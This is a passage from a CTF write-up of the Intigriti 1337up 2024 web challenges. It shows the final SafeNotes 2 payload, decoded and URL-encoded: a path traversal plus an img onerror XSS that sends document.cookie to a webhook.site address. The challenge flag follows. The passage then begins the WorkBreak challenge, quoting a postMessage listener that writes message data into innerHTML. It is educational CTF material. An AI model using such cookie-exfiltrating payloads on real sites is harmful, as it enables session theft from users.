 ```
Decoded:
name=..././..././..././/contact#<img src=x onerror=fetch('https://webhook.site/ef25b9e8-724d-4f5f-bd4a-c8ce77dde46e?q='+document.cookie) />

Encoded:
name=...%2F.%2F...%2F.%2F...%2F.%2F/contact%23%3Cimg%20src=x%20onerror=fetch('https://webhook.site/ef25b9e8-724d-4f5f-bd4a-c8ce77dde46e?q='%2Bdocument.cookie)%20/%3E

Flag:
flag=INTIGRITI{54f3n0735_3_w1ll_b3_53cur3_1_pr0m153}
```

After the CTF was over, I reviewed the [challenge author's writeup](https://crypto-cat.gitbook.io/ctf-writeups/2024/intigriti/web/safenotes_2) and my solution was pretty similar to the intended path. An interesting combination of DOM clobbering and Client-Side Path Traversal (CSPT) to get XSS!

## WorkBreak
![Workbreak]({{ "assets/writeups/1337up-ctf-2024/workbreak-prompt.png" | relative_url }})
_WorkBreak challenge prompt._

The challenge provided a link to a deployed instance of the application without any source code. At first, the point of the challenge was not clear since web application was pretty simple and without source code, it was hard to guess where the flag was located but after working on it for a bit, it proved to have some interesting primitives. I sadly missed submitting the flag for this challenge until after the CTF was over but wanted to write it up anyways.

### Initial Investigation
After creating an account and logging in, I was greeted with a profile page that looked like the following image. There were no other pages to navigate to within the web application so I focused my attention on the profile page.

![WorkBreak Profile Page]({{ "assets/writeups/1337up-ctf-2024/workbreak-profile.png" | relative_url }})
_WorkBreak profile page._

There was a chat feature that allowed users to interact with some bot. After some investigation, I realized this was an instance of an Admin Bot which flagged this as another client-side challenge. I started to look for XSS sinks within the webpage.

### Iframe Sandbox & `postMessage`
After digging around on the profile page's source code, I stumbled upon the following snippet of code.

```javascript
window.onresize = () => performanceIframe.contentWindow.postMessage(userTasks, "*");

// Not fully implemented - total tasks
window.addEventListener(
    "message",
    (event) => {
        if (event.source !== frames[0]) return;

        document.getElementById(
            "totalTasks"
        ).innerHTML = `<p>Total tasks completed: ${event.data.totalTasks}</p>`;
    },
    false
);
```
